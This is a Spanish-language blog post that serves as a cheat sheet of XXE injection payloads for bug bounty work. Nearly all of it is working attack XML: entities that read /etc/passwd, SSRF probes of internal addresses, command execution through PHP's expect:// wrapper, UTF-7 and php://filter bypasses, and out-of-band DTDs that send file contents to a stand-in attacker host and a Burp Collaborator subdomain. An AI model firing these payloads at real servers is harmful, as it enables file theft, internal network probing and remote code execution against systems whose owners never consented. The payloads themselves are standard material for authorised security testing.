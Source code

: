 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Algo metodos de inyectar una XXE.

# Table of Contents
1. [Peligros en los ataques XXE](#PeligrosXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE a LFI](#XXEaLFI)<br>
   2.2. [XXE a SSRF](#XXEaSSRF)<br>
   2.3. [XXE a RCE](#XXEaRCE)
6. [Blind en peticion](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### 1- Peligros en los ataques XXE <a name="PeligrosXXE"></a>
- **Exfiltrar informacion critica:**<br>
Seria posible obtener archivos internos del servidor incluso en servicios de la red local, lo cual es peligroso.<br>
Ejemplo: 
[XXE a LFI](#XXEaLFI)
- **Enumerar puertos y dominios en direcciones internas a la red:**<br>
A través de las peticiones ir enumerando la red<br>
Ejemplo: 
[XXE a SSRF](#XXEaSSRF)
- **Enumerar puertos abiertos en otras direcciones extrernas**<br>
 Hacer una enumeracion de puertos mediante peticiones.
- **Ejecutar codigo:** <br>
Si el servidor dispone del modulo "expect" de PHP, seria posible ejecutar codigo y poder llegar a poder ejecutar comandos.<br>
Ejemplo: 
[XXE a RCE](#XXEaRCE)
- **Denegacion del servicio**

---

### 2- XXE payloads <a name="XXEpayloads"></a>
**2.1- LFI Test** <a name="XXEaLFI"></a><br>
Ver archivos internos del servidor

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**2.2- XXE a SSRF** <a name="XXEaSSRF"></a><br>
Enumerar la red local del servidor
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**2.3-XXE a RCE** <a name="XXEaRCE"></a><br>
Abusando del modulo expect de php para ejecutar comandos
(Se requiere tener este modulo en el servidor)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```

---

### 3- XXE blind en peticion <a name="BlindXXE"></a>
**3.1- Ver si existe una XXE sin que se vea en la peticion**

Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos.<br>
Ejemplo:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **3.2- Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**3.3- Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### 4- XXE bypass <a name="XXEBypass"></a>
**4.1- XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**4.2- Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### 5- Ataques XXE Out-Of-Band: <a name="OutOFBand"></a>

**5.1- EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**5.2- EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**5.3- EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.4- EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.5- EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;errormensaje;
'>%el_dtd;]>
```
